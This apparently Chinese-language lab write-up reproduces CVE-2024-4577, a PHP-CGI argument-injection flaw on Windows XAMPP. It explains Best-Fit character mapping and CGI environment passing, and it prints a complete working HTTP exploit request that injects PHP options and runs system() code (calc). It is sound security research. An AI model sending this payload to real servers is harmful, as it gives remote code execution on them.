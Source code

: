 # CVE-2024-4577

[TOC]

## 环境搭建

1. windsow虚拟机。Hyper-v，镜像zh-cn_windows_10_business_editions_version_22h2_updated_march_2024_x64_dvd_44fea41d.iso
2. 安装**XAMPP**，我选择的版本是xampp-windows-x64-8.2.12-0-VS16-installer.exe

![image-20240609164549724](./assets/image-20240609164549724.png)

![image-20240609165309348](./assets/image-20240609165309348.png)

## 漏洞复现

```
POST http://172.19.130.53/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 172.19.130.53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
If-None-Match: "1443-60a7f6a8cca40"
If-Modified-Since: Sun, 19 Nov 2023 11:10:25 GMT
Connection: close
Content-Length: 27

<?php system('calc');?>
```



## 漏洞原理

### Best-Bit

#### 概念

Best-Fit是一种字符映射策略，用以解决源代码页中的字符在目标代码页中没有直接等价物时的问题。在将Unicode代码页中字符转换成非Unicode代码页字符时，如果无法找到对应的字符，就会按照Best-Fit预定义的一个转换表进行转换。

#### 例子

比如，GBK编码（cp936）的Best-Fit Mapping转换表是：[https://www.unicode.org/Public/MAPPINGS/VENDORS/MI...](https://www.unicode.org/Public/MAPPINGS/VENDORS/MICSFT/WindowsBestFit/bestfit936.txt) 其中有一些有趣的字符转换，比如0xaa在转换后会变成a，0xb2在转换后会变成2，0xad在转换后会变成-。

### CGI调用时数据传递

在xmmap中Apache的httpd在接收到cgi请求时会调用php-cgi这个程序执行脚本。在httpd将http请求字符串封装在名为QUERY_STRING环境变量中，进而间接将数据传递到php-cgi中。于此同时httpd将http请求体数据通过标准输入stdin传递到php-cgi中。

这里是调用链

![image-20240610054128610](./assets/image-20240610054128610.png)

这里是调用时具体细节，可以很轻易的发现QUERY_STRING这个环境变量。

```
19:59:41.8698511	php-cgi.exe	6020	Process Start		SUCCESS	Parent PID: 9308, Command line: C:\xampp\php\php-cgi.exe ­d cgi.force_redirect=XCANWIN ­d allow_url_include=on ­d auto_prepend_file=php://input, Current directory: C:\xampp\php\, Environment: 
	MIBDIRS=C:/xampp/php/extras/mibs
	MYSQL_HOME=\xampp\mysql\bin
	OPENSSL_CONF=C:/xampp/apache/bin/openssl.cnf
	PHP_PEAR_SYSCONF_DIR=\xampp\php
	PHPRC=\xampp\php
	TMP=\xampp\tmp
	HTTP_HOST=172.19.130.53
	HTTP_USER_AGENT=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
	CONTENT_LENGTH=27
	HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	HTTP_ACCEPT_ENCODING=gzip, deflate, br
	HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
	HTTP_CACHE_CONTROL=max-age=0
	HTTP_CONNECTION=close
	HTTP_IF_MODIFIED_SINCE=Sun, 19 Nov 2023 11:10:25 GMT
	HTTP_IF_NONE_MATCH="1443-60a7f6a8cca40"
	HTTP_UPGRADE_INSECURE_REQUESTS=1
	PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\cve-2024-4577\AppData\Local\Microsoft\WindowsApps
	SystemRoot=C:\Windows
	COMSPEC=C:\Windows\system32\cmd.exe
	PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
	WINDIR=C:\Windows
	SERVER_SIGNATURE=<address>Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12 Server at 172.19.130.53 Port 80</address>

	SERVER_SOFTWARE=Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
	SERVER_NAME=172.19.130.53
	SERVER_ADDR=172.19.130.53
	SERVER_PORT=80
	REMOTE_ADDR=172.19.128.1
	DOCUMENT_ROOT=C:/xampp/htdocs
	REQUEST_SCHEME=http
	CONTEXT_PREFIX=/php-cgi/
	CONTEXT_DOCUMENT_ROOT=C:/xampp/php/
	SERVER_ADMIN=postmaster@localhost
	SCRIPT_FILENAME=C:/xampp/php/php-cgi.exe
	REMOTE_PORT=56898
	GATEWAY_INTERFACE=CGI/1.1
	SERVER_PROTOCOL=HTTP/1.1
	REQUEST_METHOD=POST
	QUERY_STRING=%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input
	REQUEST_URI=/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input
	SCRIPT_NAME=/php-cgi/php-cgi.exe

```

### Best-Fit与CGi结合

![image-20240610060021506](./assets/image-20240610060021506.png)

## Reference

[CVE-2024-4577](https://mp.weixin.qq.com/s/i3lptYyFXFpD1wLqlREyIw)

[CVE-2012-1823](https://github.com/vulhub/vulhub/tree/master/php/CVE-2012-1823)